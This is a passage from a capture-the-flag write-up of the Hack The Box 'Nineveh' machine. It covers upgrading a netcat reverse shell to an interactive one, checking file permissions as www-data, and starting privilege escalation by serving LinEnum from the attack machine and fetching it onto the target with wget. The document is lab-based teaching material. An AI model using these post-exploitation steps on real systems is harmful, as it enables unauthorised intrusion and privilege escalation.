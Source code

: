 ‌To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

‌Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Before I look at the user.txt flag, let’s view the content of manage.php.

![](https://miro.medium.com/max/402/1*FKX8ZCQLjgKM8OOUnlZbdw.png)

As we suspected, it’s doing a check on the string “ninevehNotes” when running a file.

Now let’s view the permission of the user.txt file.

```text
www-data@nineveh:/var/www/html/department$ ls -la /home/amrois/         
total 32
drwxr-xr-x 4 amrois amrois 4096 Jul  3  2017 .
drwxr-xr-x 3 root   root   4096 Jul  2  2017 ..
-rw------- 1 amrois amrois    0 Jul  2  2017 .bash_history
-rw-r--r-- 1 amrois amrois  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 amrois amrois 3765 Jul  2  2017 .bashrc
drwx------ 2 amrois amrois 4096 Jul  3  2017 .cache
-rw-r--r-- 1 amrois amrois  655 Jul  2  2017 .profile
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .ssh
-rw------- 1 amrois amrois   33 Jul  2  2017 user.txt
```

We’re running as www-data, so we don’t have rights to read the file. We need to escalate our user privileges.

## Privilege Escalation <a id="31c3"></a>

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.
